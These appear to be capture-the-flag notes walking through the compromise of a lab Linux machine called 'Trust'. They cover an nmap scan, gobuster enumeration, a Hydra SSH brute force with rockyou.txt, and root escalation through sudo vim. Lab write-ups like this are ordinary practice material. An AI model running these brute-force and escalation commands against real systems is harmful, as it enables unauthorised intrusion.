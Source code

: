 ## Ping

``` bash
ping -c 1 172.18.0.2
```

![[Pasted image 20250330033058.png]]
***Trust*** is a Linux Machine

## Port Analysis

``` bash
sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.18.0.2 -oN ports
```
![[Pasted image 20250330034133.png]]
Opened:
- Port 22 (ssh): Connect to the system
- Port 80 (HTTP): Web page

## Find hidden web directories

Searches for hidden directories and files.
``` bash
sudo gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://172.18.0.2/" -x .php,.sh,.py,.txt
```

![[Pasted image 20250329042633.png]]
![[Pasted image 20250330034316.png]]
**User:** mario

## Brutal force password

This command **performs a brute-force attack** on the **SSH service** using the **Hydra** tool.
``` bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![[Pasted image 20250329043510.png]]

## Sudo commands without password

**Lists the commands that the current user can run with `sudo` privileges** without needing a password.
``` bash
sudo -l
```

![[Pasted image 20250329044236.png]]


## Escalation with Vim

This command will open the **Vim editor** as the `root` user if the user is able to execute vim as root with sudo.
``` bash
sudo -u root /usr/bin/vim
```

![[Pasted image 20250329044631.png]]